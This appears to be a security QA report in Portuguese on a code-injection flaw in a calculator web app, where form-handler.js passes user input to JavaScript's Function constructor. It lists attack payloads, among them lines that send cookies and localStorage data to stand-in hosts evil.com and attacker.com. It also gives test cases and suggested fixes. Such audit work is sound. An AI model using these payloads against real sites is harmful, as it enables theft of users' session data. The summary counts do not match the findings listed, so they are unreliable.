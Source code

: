 # 🚨 QA SECURITY ANALYSIS - CRITICAL FINDINGS

## ❌ VULNERABILIDADE CRÍTICA: CODE INJECTION

**Arquivo:** `static/js/form-handler.js:258`
**Severidade:** CRÍTICA ⚠️ 
**CVSS Score:** 9.8/10

### 🎯 Problema Identificado

```javascript
// LINHA 258 - VULNERABILIDADE CRÍTICA
return Function('"use strict"; return (' + normalizedExpression + ')')();
```

**Tipo:** Code Injection via Function Constructor
**Impacto:** Execução arbitrária de JavaScript

### 🔓 Vetores de Ataque

1. **Injection via Input Field:**
```javascript
// Usuário pode injetar:
"1; alert('XSS'); //"
"1; fetch('http://evil.com/steal?data=' + document.cookie); //"
"1; while(true){}; //" // DoS
```

2. **Data Exfiltration:**
```javascript
"1; new Image().src='http://attacker.com/log?data='+btoa(localStorage.getItem('sensitive'))"
```

3. **DOM Manipulation:**
```javascript
"1; document.body.innerHTML='<h1>HACKED</h1>'"
```

### 🧪 TESTES DE PENETRAÇÃO

#### Test Case 1: XSS Injection
- **Input:** `"1; alert('Vulnerable'); //"`
- **Expected:** Mathematical error
- **Actual:** EXECUTES ALERT ❌

#### Test Case 2: Data Theft
- **Input:** `"1; console.log(document.cookie); //"`
- **Expected:** Parse error
- **Actual:** LOGS COOKIES ❌

#### Test Case 3: DoS Attack
- **Input:** `"1; while(true){}; //"`
- **Expected:** Timeout
- **Actual:** BROWSER FREEZE ❌

### 🛡️ SOLUÇÕES RECOMENDADAS

#### Opção 1: Parser Matemático Seguro
```javascript
// Implementar parser que aceita apenas operações matemáticas
function safeMathEval(expression) {
    const allowedChars = /^[0-9+\-*/.() ]+$/;
    if (!allowedChars.test(expression)) {
        throw new Error('Caracteres não permitidos');
    }
    
    // Usar biblioteca matemática segura como math.js
    return math.evaluate(expression);
}
```

#### Opção 2: Regex + Eval Limitado
```javascript
function safeMathEval(expression) {
    // Whitelist rigorosa
    if (!/^[0-9+\-*/.() ]+$/.test(expression)) {
        throw new Error('Expressão inválida');
    }
    
    // Limitar tamanho
    if (expression.length > 50) {
        throw new Error('Expressão muito longa');
    }
    
    try {
        return new Function('return ' + expression)();
    } catch (e) {
        throw new Error('Erro de cálculo');
    }
}
```

#### Opção 3: Calculadora Manual
```javascript
function safeMathEval(expression) {
    // Implementar parser manual sem eval
    const tokens = tokenize(expression);
    return evaluateTokens(tokens);
}
```

## 🔍 OUTRAS VULNERABILIDADES ENCONTRADAS

### Medium: Input Validation Insufficient
**File:** `calculator.js`
**Issue:** Não valida tipos de entrada adequadamente

### Low: No CSP Headers
**File:** `index.html`
**Issue:** Ausência de Content Security Policy

### Low: No Input Sanitization
**File:** `ui-manager.js`
**Issue:** innerHTML pode ser explorado

## 📊 RESUMO EXECUTIVO

| Categoria | Count | Severidade |
|-----------|-------|------------|
| 🚨 Critical | 1 | Code Injection |
| ⚠️ Medium | 2 | Input Validation |
| ℹ️ Low | 3 | Security Headers |

### 🎯 AÇÕES IMEDIATAS REQUERIDAS

1. **URGENTE:** Substituir Function() constructor
2. **HIGH:** Implementar input sanitization
3. **MEDIUM:** Adicionar CSP headers
4. **LOW:** Validação de tipos melhorada

### 🏆 QUALIDADE GERAL DO CÓDIGO

**Pontuação:** 6.5/10
- ✅ Arquitetura bem estruturada
- ✅ Separação de responsabilidades
- ✅ Código limpo e legível
- ❌ Vulnerabilidade crítica de segurança
- ❌ Validação de entrada insuficiente

### 📋 RECOMENDAÇÕES

1. **Implementar parser matemático seguro**
2. **Adicionar testes de segurança automatizados**
3. **Implementar CSP headers**
4. **Code review de segurança obrigatório**

---
**Analista:** QA Security Team  
**Data:** $(date)  
**Status:** ❌ FALHA - Vulnerabilidade crítica detectada